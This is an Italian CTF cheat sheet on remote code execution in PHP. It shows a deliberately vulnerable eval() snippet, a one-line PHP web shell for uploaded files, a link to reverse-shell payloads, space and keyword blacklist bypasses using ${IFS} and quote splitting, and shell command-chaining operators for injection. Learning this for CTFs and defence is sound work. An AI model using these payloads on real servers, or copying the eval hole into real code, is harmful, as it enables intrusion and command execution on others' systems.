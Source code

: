 # RCE
Vulnerabilità (critica) che permette di eseguire codice arbitrario su un dispositivo da remoto.
Un classico esempio di codice che porta a RCE, in PHP, è: 
```
<?php $code = $_GET['code'];
eval($code); ?>
```
Possiamo quindi eseguire del codice tramite il prametro 'code': 
```
http://host/page.php?code=phpinfo();
```
# REVERSE SHELL
Assumento che si possa anche caricare un file che venga poi eseguito è possibile inserire nel file il seguente payload:

(Vedi [https://www.revshells.com/](https://www.revshells.com/) per payload di reverse shell)

```
<?php echo shell_exec($_GET['cmd']); ?>
```
Che ci permette, una volta che ci siamo posizionati sul file che abbiamo caricato, di eseguire dei comandi arbitrari tramite il parametro ```?cmd=phpinfo()```
Nelle CTF può capitare che ,al posto di sanificare l'input, venga proposta una blacklist per cercare di evitare un certo tipo di attacco. Questo è generalmente sbagliato e ci sono vari modi per bypassare questi controlli. 
#BYPASS DELLO SPAZIO
Uno dei bypass più comuni da effettuare è quello del blocco di spazi nei comandi che si vogliono eseguire, generlamente ```${IFS} e $IFS``` ci permettono di rappresentare lo spazio nella maggior parte delle shell.
Tenete sempre conto del fatto che passare il payload nell'url può dare problemi per via dell'URL Encode(in certi casi permette di effettuare dei bypass) e che molte informazioni possono essere rappresentate in Base64
Come già detto cercate di capire il sistema che avete davanti e siate creativi, a volte basta un po' di creatività per ottenere la flag, per esempio con payload del tipo: 
```
w'h'o'am'i
wh''oami
```
# CONCATENARE COMANDI
Tecniche che permettono di concatenare più comandi (queste sono per RCE in sistemi Unix): 
```
; 
&& (AND)
|| (OR)
& (Background)
| (Pipe): Prende l'output del primo comando e lo usa come input del secondo
```
```
command1; command2   # Execute command1 and then command2
command1 && command2 # Execute command2 only if command1 succeeds
command1 || command2 # Execute command2 only if command1 fails
command1 & command2  # Execute command1 in the background
command1 | command2  # Pipe the output of command1 into command2
```
Inoltre ricordatevi che i commenti sono vostri amici, può esservi utile commentare quello che non vi serve in una determinata parte di codice.
